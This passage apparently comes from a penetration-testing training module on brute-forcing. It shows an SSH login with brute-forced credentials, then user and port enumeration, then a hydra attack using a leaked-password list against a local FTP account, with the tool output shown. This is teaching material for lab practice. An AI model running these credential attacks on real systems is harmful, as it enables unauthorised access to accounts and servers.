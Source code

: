 We see that it takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

```shell
ssh [email protected] -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates

```

As we can see, we can `SSH` in, and get a shell on the server.

* * *

## FTP Brute Forcing

Once we are in, we can check out what other users are on the system:

```shell
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates

```

We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

```shell
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -

```

Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

Note 1: Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

Note 2: "rockyou-10.txt" can be found in "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", which contains 92 passwords in total. This is a shorter version of "rockyou.txt" which includes 14,344,391 passwords.

So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:

```shell
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)

```

